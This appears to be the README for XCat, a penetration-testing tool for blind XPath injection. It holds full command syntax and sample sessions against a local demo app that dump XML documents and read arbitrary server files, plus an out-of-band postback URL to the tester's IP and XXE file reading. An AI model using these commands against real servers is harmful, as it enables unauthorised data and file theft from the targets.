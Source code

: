 XCat
====

XCat is a command line program that aides in the exploitation of blind XPath injection vulnerabilities. It can be used
to retrieve the whole XML document being processed by a vulnerable XPath query, read arbitrary files on the hosts filesystem
and utilize out of bound HTTP requests to make the server send data directly to xcat.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request)
and it requires you to manually identify the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* Small and lightweight (only a few pure-python dependencies)
* Parallel requests
* XPath 2.0 supported (with graceful degrading to 1.0)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)
* Arbitrarily read text files on the servers file system via crafted SYSTEM entities

Features planned for future releases:

* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Error based retrieval

Examples
--------
If you run a windows machine you can install IronPython and start the example application (example_application/ironpython_site.py).
The syntax for a simple command you can execute against this server is:

    xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve

This command specifies the target URL (our localhost server), the GET or POST data to send (title=Bible), the vulnerable
parameter (title) and a string to indicate a true response (Book found). Executing this will retrieve the entire XML file
being queried.

    >> xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    Retrieving /*[1]
    <?xml version="1.0" encoding="utf-8"?>
    <lib test="1" attribute1="3">
        <book>
                <!-- Comment -->
                <title>Bible</title>
                <description another="attribute">The holy book</description>
    ...

The the retrieval of documents can be sped up in a number of different ways, such as using the doc function to make the
server send data directly to XCat (explained in more detail below). Each of the techniques is called a feature and can
be viewed by using the `test_injection` command. This will display information about the injection, including the
type (integer, string, path name) and various features that XCat has is able to use. XCat knows which features
are best and will gracefully degrade if they fail for any reason.
    
    >> xcat --public-ip="localhost" http://localhost:80 "title=Bible" title "Book found" test_injection
    Testing parameter title:
    SingleQuoteStringInjection:             /lib/book[name='?']
        - XPath2
        - CodepointSearch
        - DocFeature
        - EntityInjection
        - EfficientSubstringSearch

Usage
-----
Before specifying what data you want to extract from the injection you need to tell XCat how to exploit it. XCat can't
do this for you, so you have to do the initial hard work of finding a vulnerability. XCat needs a target URL it can
reach, URL encoded arguments, the vulnerable parameter and a string to match in the response. The initial data given
must be valid and trigger either a true or false response.

    Usage: xcat [OPTIONS] TARGET ARGUMENTS TARGET_PARAMETER MATCH_STRING
                      COMMAND [ARGS]...

    Options:
      --method TEXT                   HTTP method to use
      --true                          match_string indicates a true response
      --false                         match_string indicates a false response
      --loglevel [debug|info|warn|error]
      --logfile FILENAME
      --public-ip TEXT                Public IP address to use with OOB
                                      connections
      --help                          Show this message and exit.

    Commands:
      run
      test_injection  Test parameter for injectability

The two most useful commands are `run retrieve` and `run file_shell`. The first allows you to retrieve the whole document
being processed by the query in either XML or JSON format and specify a file for it to be dumped to.

    Usage: xcat-script.py run retrieve [OPTIONS]

    Attempt to retrieve the whole XML document

    Options:
      --query TEXT         Query to retrieve. Defaults to root node (/*[1])
      --output FILENAME    Location to output XML to
      --format [xml|json]  Format for output
      --help               Show this message and exit.

The second command takes no additional arguments but enables you to read arbitrary files on the filesystem. This only
works if the vulnerable parameter supports the doc feature (and optionally entity injection):

    >> xcat --public-ip="localhost" http://localhost:80 "title=Bible" title "Book found" run file_shell
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    There are three ways to read files on the file system using XPath:
     1. inject: Can read arbitrary text files as long as they do not contain any XML
     2. comment: Can read arbitrary text files containing XML snippets, but cannot contain '-->'
     3. doc: Reads valid XML files - does not support any other file type. Supports remote file URI's (http) and local ones.
    Type doc, inject or comment to switch modes. Defaults to inject
    Type uri to read the URI of the document being queried
    Note: The URI should have a protocol, e.g: file:///test.xml. Bad things may happen if the URI does not exist, and it is best to use absolute paths.
    >> uri
    URI: file:///C:/Users/x/xcat/src/example_application/input.xml
    >> file:///C:/Users/x/xcat/src/example_application/
    secret.txt
    secret.xml
    ...
    >> doc
    Switched to doc mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.xml
    <?xml version="1.0" encoding="utf-8"?>
    <this_contains_xml>
        <node>
            hello
    ...
    >> inject
    Switched to inject mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.txt
    This is a secret file. Do not read me!

### Simple usage with the example application
Check out the [readme](src/example_application) to try out XCat with the provided example application.


HTTP Postback / doc function and entity injection
----------------------------

Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function
called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents
from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working
then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP
server within the program which listens on a specified port and by then calling the doc() function with the currently
targeted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your
IP (requires the port to be forwarded and/or a public IP) in the following format similar to:

	http://YOUR_IP/?data=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing
you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using
the fileshell command (shown above) and enter the file path for an XML file.

This can be taken one step further by using entity injection to read arbitrary files on the file system. XCat does this
by starting a HTTP server and makes the vulnerable application load an XML file from it. This XML file contains crafted
DOCTYPE declarations that cause the application to include local files in the XML file as it is being parsed, the contents
of which can then be queried and sent back to XCat in another HTTP request.

[This OWASP wiki page](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) covers XML entity
injection this technique in more detail.

